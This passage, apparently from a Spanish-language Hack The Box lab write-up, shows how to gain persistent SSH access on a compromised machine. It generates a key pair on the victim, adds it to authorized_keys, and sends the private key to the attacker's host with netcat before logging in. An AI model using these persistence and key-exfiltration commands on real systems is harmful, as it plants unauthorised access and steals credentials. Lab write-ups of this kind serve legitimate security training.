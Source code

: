 ## CREAR PERSISTENCIA SSH

vimos que el servicio de ssh estaba abierto en la maquina por lo que podemos crearnos un par de claves.

```bash
cd /home/dasith
mkdir .ssh
ssh-keygen
cat id_rsa.pub
echo "copy id_rsa.pub output" > authorized_keys
```

nos pasamos el id_rsa a la maquina kali:

KALI:

```bash
nc -lvnp 4545 > id_rsa
```

VICTIMA:

```bash
nc 10.10.14.5 4545 < id_rsa
```

usamos el id_rs para conectarnos

```bash
chmod 600 id_rsa
ssh -i id_rsa dasith@10.10.11.120
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/31.png)
